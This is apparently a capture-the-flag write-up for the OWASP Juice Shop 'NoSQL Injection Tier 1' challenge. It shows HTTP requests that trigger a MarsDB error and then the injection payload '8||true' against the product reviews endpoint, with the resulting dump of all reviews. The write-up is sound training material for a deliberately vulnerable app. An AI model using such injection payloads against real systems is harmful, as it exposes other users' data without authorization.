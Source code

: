 # NoSQL Injection Tier 1
> Let the server sleep for some time. (It has done more than enough hard work for you)

We know from the [architecture overview of Juice Shop](https://github.com/bkimminich/pwning-juice-shop/blob/master/introduction/architecture.md) that some of the backend database is SQLite and some is MarsDB (MongoDB). We already know some parts of the application that use SQLite from previous SQL injection challenges like the login form and search box.

Poke around until we find something that smells NoSQL-y.

```
GET /rest/product/'/reviews HTTP/1.1
[...]
```

```
HTTP/1.1 500 Internal Server Error
[...]

{
  "error": {
    "message": "Invalid or unexpected token",
    "stack": "SyntaxError: Invalid or unexpected token\n    at Function (<anonymous>)\n    at Object.$where (/juice-shop/node_modules/marsdb/dist/DocumentMatcher.js:419:23)\n    at /juice-shop/node_modules/marsdb/dist/DocumentMatcher.js:211:46\n    at fastForEachObject (/juice-shop/node_modules/fast.js/object/forEach.js:21:5)\n    at fastForEach (/juice-shop/node_modules/fast.js/forEach.js:20:12)\n    at compileDocumentSelector (/juice-shop/node_modules/marsdb/dist/DocumentMatcher.js:203:25)\n    at DocumentMatcher._compileSelector (/juice-shop/node_modules/marsdb/dist/DocumentMatcher.js:153:14)\n  
    [...]
```

There we go, a MarsDB error.

I do NoSQL injection infrequently enough that I ususally do some reading before attempting it as a refresher. The first thing I stumbled on that worked was from [Rapid7](https://blog.rapid7.com/2014/06/12/you-have-no-sql-inj-sorry-nosql-injections-in-your-application/), the simple payload `8||true` which attempts to match all items.

```
GET /rest/product/8||true/reviews HTTP/1.1
[...]
```

```
HTTP/1.1 200 OK
[...]

{"status":"success","data":[{"message":"One of my favorites!","author":"admin@juice-sh.op","product":1,"_id":"Au437SixcxCmq7Eur"},{"message":"I bought it, would buy again. 5/7","author":"admin@juice-sh.op","product":3,"_id":"RBuGZTJnPMEWb3gEM"},{"message":"Fry liked it too.","author":"bender@juice-sh.op","product":6,"_id":"XYQc8Q3buB3HP46xs"},{"message":"I straight-up gots nuff props fo'these tattoos!","author":"mc.safesearch@juice-sh.op","product":16,"_id":"688Aqexebkm7uTaz3"},{"message":"This thang would look phat on Bobby's jacked fur coat!","author":"mc.safesearch@juice-sh.op","product":19,"_id":"hTWuGmdkSPcWxCWRN"},{"message":"Looks so much better on my uniform than the boring Starfleet symbol.","author":"jim@juice-sh.op","product":19,"_id":"P74mFvKC27y2T96Am"},{"message":"Fresh out of a replicator.","author":"jim@juice-sh.op","product":21,"_id":"TATn24nfvDb5NsdDA"},{"message":"Even more interesting than watching Interdimensional Cable!","author":"morty@juice-sh.op","product":31,"_id":"fdkrr6sfoeNiTYr6N"}]}
```
